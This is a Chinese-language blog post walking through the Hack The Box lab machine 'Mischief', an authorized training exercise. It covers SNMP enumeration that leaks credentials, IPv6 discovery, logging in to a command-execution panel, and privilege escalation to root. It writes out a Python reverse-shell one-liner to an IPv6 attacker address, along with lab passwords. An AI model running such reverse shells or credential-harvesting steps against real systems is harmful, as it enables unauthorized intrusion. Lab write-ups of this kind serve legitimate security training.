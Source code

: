 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/C2jCR1yoQgqh3xHdODy-_g)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **131** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_png/4gCJbFBBaxgr0WD3mMgto4yFaYwwjQMbuxDDBKibrhNlW5YFLV3K1XvkGj1sP1BiaYtibMLdQVrvth08BVUWP7oGw/640?wx_fmt=png)

靶机地址：https://www.hackthebox.eu/home/machines/profile/145

靶机难度：疯狂（5.0/10）

靶机发布日期：2019 年 1 月 3 日

靶机描述：

Mischief is hard to insane difficulty machine that highlights the risks involved with exposing SNMP, and the dangers of passing credentials over the command line. It also features a "ping" admin page - functionality often found on appliances, which is worth testing for RCE vulnerabilities.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/HpA1SPmFiaXnH0icIic57eR9QytbPrsHiapgSzTxN8oh4ibvYCVK7ETUkaZIRlbfNom9X0QGt93I0RFaaAKA0Sibab3Q/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/mtXBpHBrIJmMvSfMA2IDGnclSl50gYw6Njhvznic1ZW25vGceuDAakscJgPLT6WQmfvzSibQZ3ib5gnGYQYTlclFg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMokqj80Ur053Bb3OFMtTiaLmdj32tu0bN0fMG5MMBdmMOZmGJKzTcWsMuruOv1iboOEL5Dibzia0VqDw/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.92..

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMokqj80Ur053Bb3OFMtTiaLzPz2oH89EQKD6p6kg0hmm8BY7zicuwwsAibJwAcWHYvaJB8VpwzUvCQQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMokqj80Ur053Bb3OFMtTiaLvicuGmvdKVObYXtCVo3lQkqARhfS1iabnicE7l8Jcx0XmXq0HcltEPL1Q/640?wx_fmt=png)

Nmap 发现开放了 SSH（需要基本身份验证的 Python Web 服务器）和 SNMP...

可以看到本地开放了 3366 和 UDP 有关...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMokqj80Ur053Bb3OFMtTiaLbDvGibGlfS0cy5pwPwx055nmInLribAfC4ZU9AUricQSA6IjwX4dvicCbw/640?wx_fmt=png)

看到登录凭据被用作连接端口 3366 进行身份验证... 获得登录账号密码....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMokqj80Ur053Bb3OFMtTiaLO6ycJml65EpYqWZrX2xdyjjSn2LTEmNbC7LTKYGTgb6a1OBs9bN9Qg/640?wx_fmt=png)

直接访问 3366 页面，利用凭证成功登录... 又获得了两组密码...

对于 snmp 以前 HTB 靶机也遇到过，存在 snmp 一般在 ipv6 上也开放了相对应的端口...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMokqj80Ur053Bb3OFMtTiaLdib1kdMZiaT2AffUPMdKNIHJgc960XyIsB9nBgqTp7WaUh18AJeVffvA/640?wx_fmt=png)

```
git clone https://github.com/trickster0/Enyx.git
```

利用 Enyx 脚本获取靶机的 ipv6 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMokqj80Ur053Bb3OFMtTiaL2WSTtlkWcuYR4e6tNsz8nqHqdV1t91ofkDPvicTBlPtAAMckL0lhaPw/640?wx_fmt=png)通过 nmap 扫描发现了 ssh 和 80 端口都开放着...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMokqj80Ur053Bb3OFMtTiaLWMnk0emQQcRhDr9FgVm2fPecEhVEkyzEqFwojFrOkXFBE1qXgg4EuQ/640?wx_fmt=png)

通过 IPv6 成功访问页面....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMokqj80Ur053Bb3OFMtTiaLsm5yicI8RsLrcyT3WicpKsicD7dHya2YmAJrRMhbicrcBNzYBBfIOwuibQA/640?wx_fmt=png)

这是个登陆页面... 从前面获取的两组密码... 进行尝试...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMokqj80Ur053Bb3OFMtTiaLymG6QKmhXgoXe2286sibZNRdmzMicn6pFAexfNszDGn9GPLQLk9W5PXA/640?wx_fmt=png)

通过 administrator/trickeryanddeceit 成功进入...

可以看到这是命令执行的面板 REC，可以运行任意系统命令... 利用 python 简单 shell 提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMokqj80Ur053Bb3OFMtTiaLmROicCqxiaYldicn5rK40bTbqxYSBlaTGr9JPVib4wgmVRibdia917vfvqrQ/640?wx_fmt=png)

可以看到，这里使用 IP 无法提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMokqj80Ur053Bb3OFMtTiaLlysC3gfibKdLdpwUIabjqSYAXibic9U2ziawJqk8TbJOXcEFbJIZ8NV5rA/640?wx_fmt=png)

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::1031",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

需要 IPV6 进行，获得了反向外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMokqj80Ur053Bb3OFMtTiaL3OF2act77octocEbwwzrmibm4QOPrNxLSva8ky8iaNVFIM9wupKZACYg/640?wx_fmt=png)

无法获得 user_flag 信息... 但是在 loki 目录下读取到了 passwd 密码信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMokqj80Ur053Bb3OFMtTiaLiapWVZR090tLlQq8dFG8ibzoE1U65kLU06Vbr9lFurYsyzTEuibqGTnqQ/640?wx_fmt=png)

尝试 ssh 登陆，成功登陆... 获得了 user_flag 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMokqj80Ur053Bb3OFMtTiaLD596gbl5lqYl4pXlup5I2uqRl2uluyzrX0796fupibOucORpiavrGdoQ/640?wx_fmt=png)

直接枚举目录底层信息... 查看第一个文件就发现了 loki 又一组密码信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMokqj80Ur053Bb3OFMtTiaLCgc023eEcS45H0vXLFRYsE0DyEmfm0FiapQYThy1ZYRkx9matz6ktrA/640?wx_fmt=png)可以看到 loki 用户没有执行切换用户命令的权限...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMokqj80Ur053Bb3OFMtTiaLsWkNxbiaVrsEaQr4Q6LKjNGGgAUEu43dgwbLb4rUf4LUTJnqkH8IlWQ/640?wx_fmt=png)

回到前面的 www 权限，优化 TTY 后，su 获得了 root 权限... 但是还是无法读取 root_flag...

提示 root_flag 不在此处... 说明 root 没加密流，继续在别的地方找找...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMokqj80Ur053Bb3OFMtTiaLv4iajWE4VY487IEiclXSrWwZl8ibjM3W1klf43qyyOCibxrbYMmn56LG7A/640?wx_fmt=png)

获得了 root_flag 信息...

这台靶机说难，其实感觉很中规中矩... 作者给了 Insane 难度评价.... 疯狂...

可能大多数人会在 TCP 坑里停留很久...

![](https://mmbiz.qpic.cn/mmbiz_png/4gCJbFBBaxgr0WD3mMgto4yFaYwwjQMbuxDDBKibrhNlW5YFLV3K1XvkGj1sP1BiaYtibMLdQVrvth08BVUWP7oGw/640?wx_fmt=png)

针对 HTB 的 5.0 难度靶机，推荐 UDP 也顺带 nmap...

我前面做了两台类似的 snmp_udp 的靶机... 然后利用 ipv6 提权的... 所以可能比较轻松....

获得 www 提权后，如果加点加密流阻碍，在弄个缓冲区溢出提权... 才能对得起 Insane 难度评价把...

给个评价难度高级.... 哈哈哈... 加油

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台高级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)